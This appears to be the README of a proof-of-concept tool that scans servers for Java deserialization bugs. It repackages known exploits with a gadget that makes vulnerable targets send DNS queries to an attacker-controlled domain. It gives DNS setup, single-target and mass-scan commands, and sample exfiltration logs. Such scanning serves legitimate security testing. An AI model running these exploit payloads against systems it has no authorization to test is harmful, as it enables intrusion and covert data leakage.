 # Break Fast Serial

A proof of concept that demonstrates asynchronous scanning of deserialization bugs. It repackages [well known exploits](https://github.com/breenmachine/JavaUnserializeExploits) with a modified gadget that triggers DNS queries.

Detailed explanation: http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/

## DNS Chef configuration

The DNS Chef instance is a requirement to see the results of the scan.

This is the typical DNS configuration expected on your domain registrar. It will signify to other DNS servers that all subdomains of `attacker.com` must be resolved by the DNS server host at `10.11.12.13`.
```
NS scanme.attacker.com dnschef.attacker.com
A dnschef.attacker.com 10.11.12.13
```

 - `10.11.12.13` : The public IP address that is 
 - `attacker.com` : A domain name you own

It is highly recommended to use this [modified version of DNS Chef](./dnschef) that decodes the metadata placed by the scanner.

## Single IP scan

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
python breakfast.py -t 192.168.40.1 -p 7001 -d scanme.attacker.com
```

## Mass Scan

Build a list of ip/hostname with open **HTTP** ports. Use a port scanner such as NMAP to identify port that respond to HTTP.
```
$ cat list_servers.txt
192.168.40.10:80
192.168.40.24:8181
192.168.40.100:7001
192.168.40.100:8080
192.168.40.102:8080
192.168.40.102:8001
```

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
cat list_servers.txt | python breakfast.py -stdin -d scanme.attacker.com
```

## Expected response

If the vulnerability is confirmed, the expected trace from DNS Chef is as follows.

```
['843', 'jboss', '192.168.40.24', '8181']
[06:16:44] 69.165.172.165: cooking the response of type 'A' for 3834333a6a626f73733a3132372e302e302e313a38313831.scanme.fsociety.com to 127.0.0.1
['914', 'jenkins-cli', '192.168.40.102', '8080']
[06:16:45] 173.194.103.14: cooking the response of type 'A' for 3931343a6a656e6b696e732d636c693a3132372e302e302e313a38303830.scanme.fsociety.com to 127.0.0.1
```
